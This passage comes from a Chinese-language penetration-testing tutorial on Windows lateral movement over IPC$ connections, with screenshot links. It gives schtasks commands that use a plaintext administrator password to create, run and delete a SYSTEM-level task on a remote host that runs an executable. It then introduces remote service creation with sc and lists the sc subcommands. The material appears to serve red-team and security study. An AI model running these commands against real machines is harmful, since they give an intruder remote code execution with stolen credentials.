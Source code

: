 ![image-20230307132433371](https://img.gyxnb.top/img/image-20230307132433371.png)

##### (3)创建计划任务

```
schtasks /create /u administrator /p admin@123 /s 192.168.70.16 /tn run111 /sc onstart /tr c:\1.exe /ru system /f
```

![image-20230307134412749](https://img.gyxnb.top/img/image-20230307134412749.png)

##### (4)执行计划任务

```
schtasks /run /u administrator /p admin@123 /s 192.168.70.16 /i /tn "run111"
```

![image-20230307134459690](https://img.gyxnb.top/img/image-20230307134459690.png)

##### (5)删除计划任务

```
schtasks /delete /u administrator /p admin@123 /s 192.168.70.16 /tn "run111" /f
```

![image-20230307134540921](https://img.gyxnb.top/img/image-20230307134540921.png)

##### (6)清除IPC连接

```
net use \\192.168.70.16\ipc$ /del
```

# IPC配合系统服务横向移动

## SC命令详解

获取到密码并着手横向时，却发现Task Sheduler服务没有启用。这时候我们就可以远程 建立服务,然后再 启用服务 来运行我们想要运行的命令。

```
描述:SC是用来与服务控制管理器和服务进行通信的命令行程序。
用法:sc <server> [command] [service name] <option1> <option2>...
<server>选项的格式为"\\ServerName"可通过键入以下命令获取有关命令的更多帮助: "sc [command]"
命令:
query-----------查询服务的状态，或枚举服务类型的状态。
querex----------查询服务的扩展状态，或枚举服务类型的状态。
start-----------启动服务。
pause-----------向服务发送PAUSE控制请求。
interrogate-----向服务发送INTERROGATE 控制请求。
continue--------向服务发送CONTINUE控制请求。
stop------------向服务发送STOP请求。
config----------更改服务的配置(永久)。
description-----更改服务的描述。
failure---------更改失败时服务执行的操作。
failureflag-----更改服务的失败操作标志。
sidtype---------更改服务的服务SID 类型
privs-----------更改服务的所需特权。
managedaccount--更改服务以将服务帐户密码标记为由LSA 管理。
qc--------------查询服务的配置信息。
qdescription----查询服务的描述。
qfailure--------查询失败时服务执行的操作。
qfailureflag----查询服务的失败操作标志。
qsidtype--------查询服务的服务SID 类型。
qprivs----------查询服务的所需特权。
qtriggerinfo----查询服务的触发器参数。
qpreferrednode--查询服务的首选NUMA节点。
```